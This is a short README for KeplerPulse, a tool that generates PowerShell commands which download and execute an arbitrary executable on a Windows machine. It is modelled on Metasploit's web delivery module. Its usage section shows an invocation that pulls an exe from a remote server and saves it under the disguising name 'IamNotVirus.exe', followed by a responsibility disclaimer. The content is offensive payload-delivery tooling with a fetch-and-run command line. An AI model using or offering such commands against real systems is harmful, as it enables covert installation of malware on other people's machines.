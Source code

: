 # keplerpulse
KeplerPulse is a tool that generates a Powershell command that once executed on a Windows Machine, Downloads and executes your desired Executable on it. 

That's it. 

This was inspired by metasploit's web delivery module, But KeplerPulse isn't popping shells or hosting directly. Basically you can create such command without this tool.


### USAGE 
```bash
git clone https://github.com/quantumcore/keplerpulse
cd keplerpulse
sudo ./install.sh
keplerspace --p https://myfileserver.com/hi.exe C:/Users/%USERNAME%/IamNotVirus.exe 
```

**Whatever you may do with keplerpulse is your own responsiblity.**
